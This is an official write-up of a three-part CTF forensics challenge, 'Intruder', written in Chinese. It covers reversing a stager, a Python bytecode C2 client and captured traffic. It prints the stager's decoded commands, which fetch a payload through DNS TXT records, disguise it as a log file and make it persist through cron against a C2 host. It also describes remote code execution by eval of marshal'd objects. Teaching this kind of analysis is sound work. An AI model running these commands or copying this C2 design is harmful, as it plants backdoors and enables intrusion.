 ```yaml
---
title: '2022 Final CTF Misc 官方解答'
tags: [SCIST, Write-Up]
categories: [CTF]
date: 2022-08-11
description: 幫 SCIST 出了一個系列 Forensic 題目，共三題的 Intruder 題目官方解答。
---
```



---
## Intruder
### Beginning
題目給了兩個檔案，pcap 跟 binary，然後 binary 已經告知是 stager ㄌ。
先把 pcap 丟進去 wireshark 後，會發現沒有什麼可以直接看出個所以然的包可以看，所以就只能從 binary 下手，看看實際上到底做了什麼事情。

### Part1 - Stager Reverse
把 Stager 丟進去喜愛的工具內，可以發現邏輯很簡單，在 main 可以看到有兩個 exec 的 function，而傳入的參數是一個奇怪字串與字串長度，
實際逆向完 exec 後可以知道第一個 part1 的 flag，而這個 flag 就是用來對奇怪字串做 XOR decryption 的，解出來的字串會被送進去 system 後執行。


### Part2
解出來的指令:
- `(dig m.r2s.tw TXT +short; dig m2.r2s.tw TXT +short) | tr -d '" \n' | base64 -d > /var/syslog`
- `echo "*/10 * * * * python3.9 /var/syslog mm.r2s.tw 35540" > /var/auth.log`
- `crontab /var/auth.log`

可以知道程式會利用 dig 去取得 domain 的 txt record，抓下來後 `base64 -d` 會得出一個檔案，看後續的指令可以知道該檔案應該是 python 檔，但不確定是 pyc 還是 source code，所以需要實際上把檔案生出來後才可以知道下一步。

如果已經做到這邊也把檔案弄好了，就可以知道這是一份 python3.9 的 pyc，所以接下來要逆向 Python Bytecode。
在這個 pyc 中可以知道:
1. Part2 的 flag 
2. client 跟 c2 取得了 Key, IV 並使用 AES_CBC 來對接下來的溝通做加密

### Part3
走完 Part2 後會發現一件事情，c2 command 的執行流程並沒有被 hardcoded 在 pyc 內，取而代之的是透過接受資料後再經過 marshal 操作最後丟進去 eval，可以知道這邊是透過傳遞 python code object 然後執行任意指令。
所以要知道實際上的行為的話要先把 pcap 內的相關資料抓取繼續做逆向。

做完逆向之後會得出兩個主要的 function： `cat` 跟 `ls`，接下來只要將 pcap 內的指令跟取得的回覆一一對應後就可以知道惡意程式拉下哪檔案，其中一個 pdf 檔案就是 part3 的 flag。


